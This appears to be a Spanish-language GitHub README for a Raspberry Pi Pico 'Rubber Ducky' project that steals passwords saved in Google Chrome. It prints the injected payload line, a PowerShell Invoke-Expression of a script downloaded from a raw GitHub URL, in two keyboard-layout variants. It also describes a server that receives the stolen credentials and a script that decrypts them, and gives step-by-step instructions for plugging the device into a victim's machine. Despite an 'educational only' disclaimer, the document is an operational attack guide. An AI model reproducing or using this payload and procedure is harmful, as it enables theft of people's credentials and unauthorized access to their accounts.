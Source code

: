 🛑 Robo de Credenciales Guardadas en Chrome con Raspberry Pi Pico
Este proyecto demuestra cómo una Raspberry Pi Pico puede actuar como un Rubber Ducky para extraer credenciales almacenadas en Google Chrome, enviándolas a un servidor local para su desencriptado con Python.

⚠️ Este contenido es únicamente educativo. No me hago responsable del uso indebido.

📌 Archivos y estructura del proyecto
1️. Script inyectado por el Rubber Ducky (ininit.ps1)
Dentro del archivo payload.dd, se ejecutará el siguiente comando:

🔹 Distribución en inglés (ENG)
STRING Invoke-Expression (Invoke-WebRequest -Uri "https://raw.githubusercontent.com/jndr332/RubberPico/refs/heads/main/ininit.ps1").Content

🔹 Distribución en español (ESP)
STRING Invoke/Expression *Invoke/WebRequest /Uri @https>&&raw.githubusercontent.com&jndr332&RubberPico&refs&heads&main&ininit.ps1@(.Content

📝 Nota: Dependiendo de la distribución del teclado, algunos caracteres pueden diferir. Aquí tienes opciones para español e inglés.

2.  Archivos en el servidor
El servidor recibe los datos extraídos y los desencripta con Python. Los archivos clave son:

📌 server.py → Escucha las conexiones y recibe las credenciales.
📌 decipher.py → Se encarga del desencriptado de las contraseñas.

💡 Recuerda ejecutar server.py antes de iniciar el ataque, para asegurarte de que el servidor esté escuchando correctamente.



¿Cómo Usarlo?
1️⃣ Configura tu Raspberry Pi Pico como Rubber Ducky.
2️⃣ Carga el payload (payload.dd) en el Pi Pico.
3️⃣ Inicia server.py en tu máquina receptora.
4️⃣ Conecta la Raspberry Pi Pico a la máquina víctima y espera la ejecución.
5️⃣ Las credenciales extraídas se llegaran y se descifraran en el servidor.

